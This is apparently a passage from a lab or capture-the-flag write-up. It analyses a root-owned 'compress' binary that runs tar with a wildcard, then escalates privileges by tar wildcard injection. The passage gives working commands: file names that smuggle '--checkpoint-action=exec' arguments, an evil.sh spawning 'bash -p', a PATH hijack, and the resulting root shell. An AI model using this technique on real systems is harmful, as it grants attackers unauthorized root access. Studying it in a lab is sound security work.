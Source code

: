 ```shellscript
│           0x564980e4a1a5      b800000000     mov eax, 0
│           0x564980e4a1aa      e8e1feffff     call sym.imp.setuid     ; int setuid(int uid)
│           0x564980e4a1af      488d3d4e0e..   lea rdi, str._bin_tar_cf_archive.tar_ ; 0x564980e4b004 ; "/bin/tar cf archive.tar *"
│           0x564980e4a1b6      b800000000     mov eax, 0
│           0x564980e4a1bb      e8b0feffff     call sym.imp.system     ; int system(const char *string)
│           0x564980e4a1c0      b800000000     mov eax, 0
│           0x564980e4a1c5      5d             pop rbp
└           0x564980e4a1c6      c3             ret
```

The `r2` analysis of the `main` function revealed that the `compress` binary executes `/bin/tar cf archive.tar *` using the `system()` function. Crucially, it calls `setgid(0)` and `setuid(0)` before executing the `tar` command, meaning it runs as root. The `*` wildcard in the `tar` command is vulnerable to argument injection.

This is a classic `tar` wildcard vulnerability. I can exploit this by creating files with specific names that `tar` will interpret as command-line arguments. The relevant arguments are `--checkpoint=1` and `--checkpoint-action=exec=evil.sh`.

First, I created two files in `john`'s home directory:

```shellscript
john@keyring:~$ echo "" > ./--checkpoint=1
john@keyring:~$ echo "" > ./--checkpoint-action=exec=evil.sh
```

Next, I created a malicious script named `evil.sh` that would give me a root shell.

```shellscript
john@keyring:~$ vim evil.sh
john@keyring:~$ cat evil.sh
#!/bin/bash
/bin/bash -p
john@keyring:~$ chmod +x evil.sh
```

The `#!/bin/bash` shebang ensures it's executed by bash, and `/bin/bash -p` ensures that the shell retains the SUID privileges (i.e., runs as root).

Before executing `compress`, I needed to ensure that `evil.sh` would be found in the `PATH` when `tar` attempts to execute it. I modified the `PATH` environment variable to include the current directory (`/home/john`).

```shellscript
john@keyring:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
john@keyring:~$ export PATH=/home/john:$PATH
```

Finally, I executed the `compress` binary.

```shellscript
john@keyring:~$ ./compress
/bin/tar: archive.tar: file is the archive; not dumped
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@keyring:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1000(john)
```
